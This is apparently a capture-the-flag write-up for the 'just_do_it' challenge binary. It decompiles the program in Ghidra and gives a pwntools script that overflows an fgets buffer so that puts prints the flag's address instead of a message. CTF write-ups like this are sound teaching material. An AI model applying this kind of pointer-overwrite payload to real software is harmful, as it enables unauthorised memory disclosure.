


Decompiling with Ghidra:


We see that program reads flag from `flag.txt` and stores it in the `flag`, then asks for the password and stores input in variable `local_28`. If `local_28` is equal to `PASSWORD`, then it sets `local_14` to `success_message` and puts `local_14`.


We see none of the password, success message or failed message are of any interest to us. We want the flag.


Maybe we can overwrite the `local_14` with the address of the `flag` and hence make it print the flag.

Offset between input to `local_20` and `local_14` is `0x28-0x14 = 0x14`, but the `fgets` is taking input of 20 bytes. So, its possible !


Address of the `flag` : `0x0804a080`.

Exploit:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template just_do_it
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'just_do_it')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x8048000)

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
payload = b'0'*0x14 + p32(0x0804a080)
io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.interactive()
```

Hence, we get the flag.


